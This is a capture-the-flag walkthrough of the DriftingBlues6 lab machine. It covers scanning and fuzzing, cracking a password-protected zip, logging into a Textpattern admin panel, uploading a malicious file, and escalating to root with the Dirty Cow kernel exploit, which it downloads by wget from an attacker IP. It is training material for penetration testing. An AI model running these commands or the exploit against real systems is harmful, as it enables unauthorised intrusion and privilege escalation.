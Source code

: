```yaml
---
title: "DriftingBlues6"
categories: [CTF, Proving Grounds - Play]
tags: [EASY, Linux, Web, TextPattern, Insecure File Upload, Dirty Cow]
mermaid: true
image: ../assets/img/pg/offsec.jpeg
---
```


The exploitation of the "DriftingBlues6" box involved several critical steps. First, intelligence gathering was conducted through a port scan using the nmap tool, identifying open ports such as 80. Enumeration revealed the presence of a Textpattern CMS. Through directory fuzzing and a file search, a zip file named "spammer.zip" was found. After cracking the zip password, credentials were extracted, which provided access to the Textpattern admin panel. A malicious file was then uploaded, leading to remote command execution. During post-exploitation, a vulnerable Linux kernel version was identified, and privilege escalation was achieved by using the Dirty Cow exploit, leading to root access. The process included techniques for exploiting web vulnerabilities, file uploads, and privilege escalation, culminating in total system access and the retrieval of proof files.

# Overview

```mermaid
graph TD
    A[Intelligence Gathering]
    A --> B[Port Scan > Port 80]
    B --> C[Enumeration: HTTP > Textpattern CMS]
    C --> D[Exploitation > Zip File Cracking > Insecure File Upload]
    D --> E[Post-Exploitation: Privilege Escalation using Dirty Cow]
    E --> F[Root Shell Access]

```

## 1. Information Gathering

### Port Scan

```bash
sudo nmap -sC -sV -p-  192.168.169.219 -T5 -v
```

Output

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.2.22 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/textpattern/textpattern
|_http-title: driftingblues
|_http-server-header: Apache/2.2.22 (Debian)
```

## 2. Enumeration

### Port 80

![Untitled](../assets/img/pg/Drift/Untitled.png)

Source Page

```html
<!DOCTYPE html>
<html>
<title>driftingblues</title>
<body class="gbody">
<style>
.gbody {
	background-color: #f4ecd8;
	width: 1000px;
	margin: 40px auto;
	font-family: arial;
	font-size: 20px;
	   }

.gempty1 {
	display: inline-block;
	width: 1000px;
	height: 10px;
	border-bottom: solid 1px #000000;
	}

.gempty {
	display: inline-block;
	width: 1000px;
	height: 70px;
	}
	
</style>
<span class="main1">
<h1>Drifting Blues Tech
<h2>please don't hack
<h2>enough is enough!!!
<br><br><img src="db.png">
</span>
<span class="gempty"></span>
</body>
</html>
<!-- 
please hack vvmlist.github.io instead
he and their army always hacking us -->
```

directory fuzzing

```bash
gobuster dir -u http://192.168.169.219 -w /usr/share/wordlists/dirb/big.txt -t 40
```

```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 292]
/.htaccess            (Status: 403) [Size: 292]
/cgi-bin/             (Status: 403) [Size: 291]
/db                   (Status: 200) [Size: 53656]
/index                (Status: 200) [Size: 750]
/robots               (Status: 200) [Size: 110]
/robots.txt           (Status: 200) [Size: 110]
/server-status        (Status: 403) [Size: 296]
/textpattern          (Status: 301) [Size: 324] [--> http://192.168.169.219/textpattern/]
Progress: 20469 / 20470 (100.00%)

```

robots.txt

![Untitled](../assets/img/pg/Drift/Untitled%201.png)

Discovered the Textpattern CMS

![Untitled](../assets/img/pg/Drift/Untitled%202.png)

[http://192.168.169.219/textpattern/textpattern/](http://192.168.169.219/textpattern/textpattern/) //requesting username and password for the admin page

![Untitled](../assets/img/pg/Drift/Untitled%203.png)

search for files with a .zip extension

```bash
feroxbuster -u http://192.168.169.219/ -k -C 404,403,500 --wordlist=/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x zip
```

```bash
200      GET      212l     1206w    97264c http://192.168.169.219/db.png
200      GET       76l       75w      750c http://192.168.169.219/index
200      GET       76l       75w      750c http://192.168.169.219/
200      GET      212l     1206w    97264c http://192.168.169.219/db
200      GET        5l       14w      110c http://192.168.169.219/robots
200      GET        2l        7w      227c http://192.168.169.219/spammer
200      GET        2l        7w      227c http://192.168.169.219/spammer.zip
```

spammer.zip

![Untitled](../assets/img/pg/Drift/Untitled%204.png)

zip file requests password

![Untitled](../assets/img/pg/Drift/Untitled%205.png)

Crack the hash using the John tool

```bash
zip2john spammer.zip > hash                                  
```

hash

```
spammer.zip/creds.txt:$pkzip$1*1*2*0*1b*f*b003611d*0*27*0*1b*b003*2d41804a5ea9a60b1769d045bfb94c71382b2e5febf63bda08a56c*$/pkzip$:creds.txt:spammer.zip::spammer.zip
```

crack

```bash
john hash 
```

> myspace4         (spammer.zip/creds.txt)
> 

Credentials

![Untitled](../assets/img/pg/Drift/Untitled%206.png)

> mayer:lionheart
> 

## 3. Exploitation

Access the admin panel

![Untitled](../assets/img/pg/Drift/Untitled%207.png)

### Upload file

Create the malicious file and set my IP.

![Untitled](../assets/img/pg/Drift/Untitled%208.png)

[http://192.168.169.219/textpattern/textpattern/index.php?event=file](http://192.168.169.219/textpattern/textpattern/index.php?event=file)

![Untitled](../assets/img/pg/Drift/Untitled%209.png)

Accessed the file at http://192.168.169.219/textpattern/files/

![Untitled](../assets/img/pg/Drift/Untitled%2010.png)

Initial Access

![Untitled](../assets/img/pg/Drift/Untitled%2011.png)

## 4. Post-Exploitation

Kernel Vulnerability

```bash
uname -a
```

> Linux driftingblues 3.2.0-4-amd64 #1 SMP Debian 3.2.78-1 x86_64 GNU/Linux
> 

[Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method)](https://www.exploit-db.com/exploits/40839)

```bash
wget http://192.168.45.248/40839.c
gcc -pthread 40839.c -o dirtycow -lcrypt
```

![Untitled](../assets/img/pg/Drift/Untitled%2012.png)

Root Access

![image.png](../assets/img/pg/Drift/image.png)